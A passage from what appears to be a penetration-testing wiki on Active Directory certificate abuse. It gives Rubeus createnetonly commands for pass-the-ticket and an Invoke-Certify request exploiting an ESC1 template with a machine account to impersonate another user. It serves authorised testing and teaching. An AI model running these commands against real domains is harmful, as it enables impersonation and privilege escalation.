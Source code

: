{% tab title="Rubeus" %}
{% code overflow="wrap" %}
```powershell
# Syntax
Rubeus.exe createnetonly /program:c:\windows\system32\cmd.exe /username:<user> /password:fakepass /ptt /show /domain:<domain> /dc:<Domain Controller> /ticket:<ticket>

# Example
Rubeus.exe createnetonly /program:c:\windows\system32\cmd.exe /username:arbiter /password:fakepass /ptt /show /domain:security.local /dc:dc01.security.local /ticket:doIGV<--Snip -->
```
{% endcode %}
{% endtab %}
{% endtabs %}



### &#x20;ESC1 - Windows  - Machine Account

Its not uncommon to find the ability for domain computers to have enrollment rights over templates.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

To perform this attack you will need to be running a shell in the context of a domain computer (SYSTEM or TGT in memory for a computer account, or if a local administrator certify will attempt to elevate to SYSTEM).

{% tabs %}
{% tab title="Invoke-Certify" %}
{% code overflow="wrap" %}
```powershell
Invoke-Certify request /machine /"CA Name" /template:"Template" /altname:"User to Impersonate"

# Example
Invoke-Certify request /machine /ca:SRV2019.Security.local\Security-SRV2019-CA /template:ESC1 /altname:arbiter 
```
{% endcode %}
{% endtab %}
